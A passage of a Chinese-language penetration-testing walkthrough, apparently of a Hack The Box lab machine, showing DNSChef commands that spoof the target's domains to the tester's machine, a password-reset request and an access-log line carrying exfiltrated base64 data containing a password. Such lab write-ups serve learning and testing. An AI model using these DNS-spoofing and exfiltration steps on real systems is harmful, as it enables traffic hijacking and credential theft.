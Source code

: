## DNS欺骗

这里使用DNSChef这款软件来进行DNS欺骗，下载地址：https://github.com/iphelix/dnschef

DNSChef旨在为渗透测试人员和恶意软件分析师提供一个高度可配置的DNS代理。DNS代理（也称为“Fake DNS”）是用于应用程序

网络流量分析以及其他用途的工具。例如，DNS代理可以用于伪造对“badguy.com”的请求使其指向本地机器来终止或拦截，而不是指向Internet上的某个真实主机。

先测试下基本用法：

window修改dns服务器：

![]()

  * 

    
    
    dnschef —fakeip=192.168.200.2 —fakedomains=www.baidu.com,www.qq.com —interface 192.168.200.243

fackip欺骗到指定的ip，facedomains欺骗域名

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811175834.png)

成功实现了DNS欺骗。

在本次渗透测试中运行如下命令：

> python3 dnschef.py -i 10.10.16.14 —fakedomains xemployees.crossfit.htb
> —fakeip 127.0.0.1 —count 2; sleep 1; python3 dnschef.py -i 10.10.16.14
> —fakedomains xcrossfit.htb,xemployees.crossfit.htb —fakeip 10.10.16.14

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811175835.png)这里渗透的思路就是：既然我们获取了目标服务器的DNS配置文件，那我们就利用unbound搭建一个DNS服务器，配置与目标服务器相同。在利用DNSChef工具来进行DNS欺骗，将受害机器的DNS流量全部引导到我们自己搭建的DNS服务器上，实现了流量的劫持，并可以对关键数据进行拦截与分析，引导受害机器运行我们定义的恶意代码。

## 获取用户密码

利用前面获取的用户名，在kali终端里运行：

  * 

    
    
    curl -s -X "POST" -H "Host: xemployees.crossfit.htb" -H "Content-Type: application/x-www-form-urlencoded" -d "email=david.palmer%40crossfit.htb" "http://10.10.10.232/password-reset.php"

看下DNSChef的运行情况：

![]()查看apache日志/var/log/apache2/access.log，就可以发现；

  * 

    
    
    10.10.10.232 - - [19/Jul/2021:21:03:31 -0400] "GET /get.php?s=eyJzZW5kZXJfaWQiOjIsImNvbnRlbnQiOiJIZWxsbyBEYXZpZCwgSSd2ZSBhZGRlZCBhIHVzZXIgYWNjb3VudCBmb3IgeW91IHdpdGggdGhlIHBhc3N3b3JkIGBOV0JGY1NlM3dzNFZEaFRCYC4iLCJyb29tSWQiOjIsIl9pZCI6MjcxOX0= HTTP/1.1" 404 489 "http://xcrossfit.htb/go.html" "Mozilla/5.0 (X11; OpenBSD amd64; rv:82.0) Gecko/20100101 Firefox/82.0"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811175836.png)对这段base64解码后可得：
